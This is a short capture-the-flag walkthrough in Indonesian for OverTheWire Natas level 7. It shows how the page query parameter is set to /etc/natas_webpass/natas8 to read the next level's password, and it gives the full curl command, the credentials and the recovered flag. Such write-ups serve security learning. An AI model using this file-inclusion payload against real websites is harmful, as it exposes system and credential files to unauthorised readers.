 ```yaml
---
layout: level
level: 7
previous: ./level 06.html
next: ./level 08.html
---
```


# soal
Username: natas7
URL:      http://natas7.natas.labs.overthewire.org

# solve
- use cred natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
- disini ketika saya sudah login saya melihat terdapat sebuah navbar untuk berpindah halaman dan ketika di lihat terdapat sebuah query
  - query nya adalah ?page=home
  ![alt text](docs/images/image-8.png)
- lalu ketika saya lihat view-source pagenya saya menemukan hint untuk posisi passwrod natas
  ![alt text](docs/images/image-9.png)
  ```/etc/natas_webpass/natas8```
- jadi saya mengubah value dari paramter ?page
  - dan mendapatkan flagnya
  ![alt text](docs/images/image-10.png)
- jika menggunakan curl
  ```bash
  curl http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
  # xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
  # <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
  ```

# flag
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q